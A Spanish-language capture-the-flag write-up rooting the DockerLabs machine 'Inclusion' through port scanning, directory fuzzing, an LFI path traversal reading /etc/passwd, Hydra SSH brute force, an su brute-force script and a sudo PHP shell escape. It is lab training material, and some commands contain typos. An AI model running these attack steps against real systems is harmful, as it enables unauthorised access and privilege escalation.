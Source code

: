 Deplegamos maquina de dockerlabs con

`sudo ./auto_deploy.sh inclusion.tar`

hacemos un brarido con **nmap** para lista los puertos abiertios usando 

`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![[Pasted image 20240729151923.png]]

Ok lugo de hacer el barido de puertos obsevamos que la maquina tiene abiertos el puerto **22, 80** puertos comunes que ya conecemos. Analisando cada puerto obesrvamos que puerto 22 **SSH** con una version de **OpenSSH  9.2p1** no tan actual pero de igunamente no nos permite usar exploits para enuemar usaurios como lo es el  **Username Enumeration**. y finalmente  el puerto 80 **http** en el cual vemos en que tien un titulo comun de la paguina de muestra de apache  en su sitio web ya que es un **APACHE  2.4.57**  asi que vamos al navegador y veamos.

![[Pasted image 20240729152310.png]]

nada estraño ni haciendo CTRL + U vemos comentarios que nos de pistas asi que recurimos a gobuster para realizar fuzzing y que otras rutas hay en el sito web. 

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`

![[Pasted image 20240729152738.png]]

vemos que gobuster  nos encontro dos rutas una con estado **200 OK**  llamada  **shop** y un **server-status** no tan interesante asi que nos dirigimos a la ruta *shop*

![[Pasted image 20240729153133.png]]
 analizando la paguina vemos que es una imgen de un teclado y un titilo que dice *Tienda de Teclado*  pero lo vemos que es intereando es lo que hay que la esquina inferior izquierda de la pantalla vemo un erro que dice Error de Sistema y vemos que trata de llamar a un archivo del sistema por el metodo GET esto meda un idea de implementar algo como **URL/?archivo=index.php** porque php porque el Wappalyzer no indica **PHP**.

 ![[Pasted image 20240729154229.png]]

OK,  como sabemos esto de archivos es un copsecto de path Travesal con LFI, asi que listaremos el el /etc/passwd con el siguiente link

`http://172.17.0.2/shop/?archivo=../../../../etc/passwd` 
 y obtenemos el siguiente resultado
 ![[Pasted image 20240729163032.png]]

si vemos esto es la info de passwd y vemos usuarios con **root** **www-data**,  **seller**, **manchi** uno muy interesante sabiendo que estan estos usuarios intentaremos hacer un brute force para inicar secion en SSH con Hydar

`hydra -l seller -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`
`hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`

![[Pasted image 20240729163728.png]]

bingo ya que con el usuario **seller** no tuvimos suerte intentamos con el usuario **manchi** y obtivimos un un password que podemos usar el cual es **lovely**  

asi que  iniciamos secion en ssh con 

`shh manchi@172.17.0.2` 

![[Pasted image 20240729164142.png]]

y ya somos el usurio manchi ahor vemos si tenmos algun arcivo sudo con **sudo -l** pero no tenemos suerte asi que buscamos alguno alchivo **SUID** con `find / -perm -4000 -ls 2>/dev/null`  pero no tenemos nada.  asi que en esta aocacion usaremos el archivo  de fuerza bruta  [Maalfer/Sudo_BruteForce: Script hecho en bash para realizar un ataque de fuerza bruta a un usuario de un sistema Linux. (github.com)](https://github.com/Maalfer/Sudo_BruteForce/tree/main)   para realizar un ataque a un usuario.  los paso que arremos son los siguiente.


con este primer comando desacrmos el script a nuestra maquina actacante. 

`wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh` 

y el segundo copiamos el rockyou. 

`cp /usr/share/wordlists/rockyou.txt .` 

en vista que la maquina no tiene ni curl y wget para transferir archivo usaremos scp 

`scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
`scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt``

con el primero copiamos el rockyou y el segundo el bash para crackear el password de usurios seller. en abas acaciones escribiel password de manchi.

![[Pasted image 20240729170927.png]]

![[Pasted image 20240729171031.png]]

ahora como podemo ver en la maquina victima el ya estan los archivos asi que ahora ejecutamos el archivo de la siguinte manera

`./Linux-Su-Force.sh seller rockyou.txt` 

![[Pasted image 20240729171535.png]]

y vemos que obtenemos un password **qwerty** . algunas recomendaciones si no encuntra el password a la primera ejecuten varias veces el script.

ahora con inicamos secion con seller 

`su seller` 

![[Pasted image 20240729171757.png]]

y ahora de nuevo usamso **sudo -l** para ver que permiso sudo tenemos para ejecutar encontramos  **/usr/bin/php**  asi que vamos GTFOBins  y buscamos php

![[Pasted image 20240729172101.png]]
y vemos que comi sudo podemo escalar privilejios usando  

`sudo -u root /usr/bin/php -r "system('/bin/bash');"`

![[Pasted image 20240729172642.png]]


y asi consegimo el root en el machina inclution

`by juandas13` 














 